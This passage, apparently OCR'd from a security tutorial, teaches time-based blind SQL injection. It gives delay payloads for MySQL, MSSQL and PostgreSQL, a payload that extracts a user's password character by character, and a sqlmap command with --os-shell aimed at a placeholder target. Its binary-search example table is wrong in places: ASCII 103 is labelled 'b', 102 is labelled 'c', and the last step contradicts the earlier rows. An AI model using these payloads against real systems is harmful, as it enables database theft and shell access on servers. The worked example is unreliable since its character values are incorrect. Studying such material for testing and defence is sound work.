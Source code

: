 2. **Condition-Based Delay Injection**  
   - **Objective**: Inject payloads that trigger delays if a condition evaluates to `true`.  
   - **Database-Specific Payloads**:  

     | **Database** | **Payload**                                                                 | **Explanation**                                                                 |  
     |--------------|-----------------------------------------------------------------------------|--------------------------------------------------------------------------------|  
     | **MySQL**    | `AND IF(1=1, SLEEP(5), 0) --`                                              | Delays response by 5 seconds if the condition `1=1` is true.                     |  
     | **MSSQL**    | `; WAITFOR DELAY '00:00:05'--`                                              | Pauses execution for 5 seconds regardless of the condition.                       |  
     | **PostgreSQL**| `AND pg_sleep(5) --`                                                       | Uses the `pg_sleep()` function to introduce a 5-second delay.                     |  

3. **Binary Search for Data Extraction**  
   - **Objective**: Extract sensitive data (e.g., passwords, table names) by iteratively guessing characters.  
   - **Process**:  
     1. Target a specific character position in a string (e.g., the first character of a password).  
     2. Use conditional delays to test if the ASCII value of the character meets a condition (e.g., `> 97`).  
     3. Narrow down the ASCII value using a binary search approach.  

     **Example Workflow**:  
     ```sql  
     -- Guessing the first character of a password:  
     ' AND IF(ASCII(SUBSTRING((SELECT password FROM users LIMIT 1),1,1)) > 97, SLEEP(5), 0) --  
     ```  
     - If the response takes **5+ seconds**, the ASCII value is **>97** ("a").  
     - Adjust the condition incrementally (e.g., `> 100`, `> 105`) until the exact value is found.  

     **Binary Search Table Example**:  
     | **Character Position** | **Guess (ASCII)** | **Condition**                          | **Response Time** | **Result**       |  
     |------------------------|-------------------|----------------------------------------|-------------------|------------------|  
     | 1                      | 97 ("a")          | `ASCII > 97`                           | 5 seconds         | Value > 97       |  
     | 1                      | 105 ("i")         | `ASCII > 105`                          | 200ms             | Value ≤ 105      |  
     | 1                      | 100 ("d")         | `ASCII > 100`                          | 5 seconds         | Value > 100      |  
     | 1                      | 102 ("c")         | `ASCII > 102`                          | 5 seconds         | Value > 102      |  
     | 1                      | 103 ("b")         | `ASCII = 103`                          | 5 seconds         | Character = "g"  |  

4. **Automation with SQLMap**  
   - **Tool Usage**: SQLMap automates the binary search process, reducing manual effort.  
   - **Example Command**:  
     ```bash  
     sqlmap -u "http://target.com/vulnerable-page?id=1" \  
            --technique=T \  
            --threads=5 \  
            --os-shell  
     ```  
   - **Parameters**:  
     - `--technique=T`: Specifies time-based SQLi.  
     - `--threads=5`: Parallelizes requests to speed up data extraction.  

---